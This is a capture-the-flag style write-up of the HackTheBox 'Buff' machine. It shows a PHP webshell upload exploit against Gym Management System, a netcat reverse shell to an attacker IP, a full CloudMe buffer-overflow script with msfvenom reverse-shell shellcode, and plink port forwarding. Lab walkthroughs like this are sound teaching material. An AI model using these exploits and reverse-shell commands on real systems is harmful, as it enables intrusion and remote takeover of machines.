 # Buff

Author: Ewaël

**Buff** is an easy HackTheBox box by egotisticalSW.

`nmap -sC -sV -oN nmap 10.10.10.198 -v -A` shows port 8080 is open. Let's check this.

![site](site.png)

The package page displays `mrb3n's Bro Hut- Packages` so `mrb3n` must be the user. This could be useful later. Then I find the site runs under Gym Management Software on the contact page:

![gms](gms.png)

Searching for a known exploit I find one:

```
Gym Management System 1.0 - Unauthenticated Remote Code Execution | php/webapps/48506.py
```

I copy the script, I rename it to `exploit.py` and I take a look at the explanations:

```python
# Exploit Details:
#   1. Access the '/upload.php' page, as it does not check for an authenticated user session.
#   2. Set the 'id' parameter of the GET request to the desired file name for the uploaded PHP file.
#     - `upload.php?id=kamehameha`
#     /upload.php:
#        4 $user = $_GET['id'];
#       34       move_uploaded_file($_FILES["file"]["tmp_name"],
#       35       "upload/". $user.".".$ext);
#   3. Bypass the extension whitelist by adding a double extension, with the last one as an acceptable extension (png).
#     /upload.php:
#        5 $allowedExts = array("jpg", "jpeg", "gif", "png","JPG");
#        6 $extension = @end(explode(".", $_FILES["file"]["name"]));
#       14 && in_array($extension, $allowedExts))
#   4. Bypass the file type check by modifying the 'Content-Type' of the 'file' parameter to 'image/png' in the POST request, and set the 'pupload' paramter to 'upload'.
#        7 if(isset($_POST['pupload'])){
#        8 if ((($_FILES["file"]["type"] == "image/gif")
#       11 || ($_FILES["file"]["type"] == "image/png")
#   5. In the body of the 'file' parameter of the POST request, insert the malicious PHP code:
#       <?php echo shell_exec($_GET["telepathy"]); ?>
#   6. The Web Application will rename the file to have the extension with the second item in an array created from the file name; seperated by the '.' character.
#       30           $pic=$_FILES["file"]["name"];
#       31             $conv=explode(".",$pic);
#       32             $ext=$conv['1'];
#   - Our uploaded file name was 'kaio-ken.php.png'. Therefor $conv['0']='kaio-ken'; $conv['1']='php'; $conv['2']='png';
#   7. Communicate with the webshell at '/upload.php?id=kamehameha' using GET Requests with the telepathy parameter.
```

`python2 exploit.py http://10.10.10.198:8080/` successfully opens a webshell as `shaun`, but now I need to have a working reverse shell in order to efficiently exploit the target.

First I download netcat for Windows here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe). Then I upload it to the target via curl and a python local server. Then I just start my listener on 4444 and uses `nc.exe 10.10.14.4 4444 -e cmd.exe` from the webshell. That's it, I have the user flag:

`3d3b855d6ebf98baf469e5a26ccff8e8`

Let's hunt the root flag now. I quickly find `passwords.txt` in `C:\xampp`:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser
   Password: wampp

4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf

   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so

   Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

This seemed interesting to me at first because I never saw this before, but I understand after some googling that the solution is somewhere else. I find `CloudMe_1112.exe` in `C:\Users\shaun\Downloads`. What a surprise, there is a known vulnerability about this specific version:

```
CloudMe 1.11.2 - Buffer Overflow (PoC) | windows/remote/48389.py
```

Let's rename it to `cloudme_exploit.py` and change the shellcode with `msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 1234 -e cmd.exe' -b '\x00\x0A\x0D' -f python`

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 1234 -e cmd.exe' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xbf\xf5\x4b\xe3\x92\xdd\xc3\xd9\x74\x24\xf4\x5b\x2b"
buf += b"\xc9\xb1\x3e\x31\x7b\x14\x03\x7b\x14\x83\xc3\x04\x17"
buf += b"\xbe\x1f\x7a\x55\x41\xe0\x7b\x39\xcb\x05\x4a\x79\xaf"
buf += b"\x4e\xfd\x49\xbb\x03\xf2\x22\xe9\xb7\x81\x46\x26\xb7"
buf += b"\x22\xec\x10\xf6\xb3\x5c\x60\x99\x37\x9e\xb5\x79\x09"
buf += b"\x51\xc8\x78\x4e\x8f\x21\x28\x07\xc4\x94\xdd\x2c\x90"
buf += b"\x24\x55\x7e\x35\x2d\x8a\x37\x34\x1c\x1d\x43\x6f\xbe"
buf += b"\x9f\x80\x04\xf7\x87\xc5\x20\x41\x33\x3d\xdf\x50\x95"
buf += b"\x0f\x20\xfe\xd8\xbf\xd3\xfe\x1d\x07\x0b\x75\x54\x7b"
buf += b"\xb6\x8e\xa3\x01\x6c\x1a\x30\xa1\xe7\xbc\x9c\x53\x24"
buf += b"\x5a\x56\x5f\x81\x28\x30\x7c\x14\xfc\x4a\x78\x9d\x03"
buf += b"\x9d\x08\xe5\x27\x39\x50\xbe\x46\x18\x3c\x11\x76\x7a"
buf += b"\x9f\xce\xd2\xf0\x32\x1b\x6f\x5b\x59\xda\xfd\xe1\x2f"
buf += b"\xdc\xfd\xe9\x1f\xb4\xcc\x62\xf0\xc3\xd0\xa0\xb4\x3b"
buf += b"\x9b\xe9\x9d\xd3\x42\x78\x9c\xbe\x74\x56\xe3\xc6\xf6"
buf += b"\x53\x9c\x3d\xe6\x11\x99\x7a\xa0\xca\xd3\x13\x45\xed"
buf += b"\x40\x14\x4c\xae\x5c\xb6\x17\x50\xcc\x36\x98\xce\x66"
buf += b"\xc2\x3c\x80\x15\x59\xe1\x39\xa3\xf0\x45\xb3\x23\x66"
buf += b"\x19\x5a\xa0\x2a\x8b\xff\x06\xb7\x2b\x65\x77\x06\xfc"
buf += b"\x4b\x46\x58\xd2\xa2\x9c\xb6\x1b\xf0\xfc\xf7\x69\xc9"
buf += b"\xc8\xd7\xa0\x48\x11\x74\xd6\xf6\x7f\x1f\x50\x92\x7f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

payload = padding1 + EIP + NOPS + buf + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except Exception as e:
	print(sys.exc_value)
```

Let's upload the script to the the target, for example using curl: `curl -O http://10.10.14.15:5555/cloudme_exploit.py`. But here is the problem, Python is not installed on the machine. I have to compile the script into an executable file to be able to use it.

I use `pyinstaller` on a Windows VM for this: `pyinstaller cloudme_exploit.py --onefile --name cloudme_exploit.exe`. Now that I can execute the exploit, I realize that it does not work because I must portforward my ip to the local 8888 port.

I've already done this before using `plink`, let's use it again following [https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d](https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d)

I download the 64-bit version and upload it to the target. I start ssh on host with `sudo service ssh start`, then I use `plink.exe -ssh -l kali -pw kali -R 10.10.14.15:8888:127.0.0.1:8888 10.10.14.15`, `kali:kali` being the default user:password. Let's launch the exploit now.

On host, I set up a listener on 1234 with `nc -lvnp 1234`. On target, I start the vulnerable `C:\Users\shaun\Downloads\CloudMe_1112.exe` program. I can now start the exploit: `C:\xampp\htdocs\gym\upload\cloudme_exploit.exe`.

```
C:\xampp\htdocs\gym\upload>C:\xampp\htdocs\gym\upload\cloudme_exploit.exe
C:\xampp\htdocs\gym\upload\cloudme_exploit.exe
Traceback (most recent call last):
  File "cloudme_exploit.py", line 50, in <module>
ConnectionRefusedError: [WinError 10061] No connection could be made because the target machine actively refused it

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "cloudme_exploit.py", line 53, in <module>
AttributeError: module 'sys' has no attribute 'exc_value'
[7764] Failed to execute script cloudme_exploit
```

Meh. An error occured during the target-host connection. I just start it again and it works nicely this time... But I still do not have any sign of a connection on my listener. The reason is that I have to set up the listener as `kali` and not as `root` because the port forwarding is using the `kali` user.

Let's `su kali` and `nc -lvnp 1234`, and do it again. Here is my root flag:

`0ce38ab812e1fb6e9845290c2db27af6`
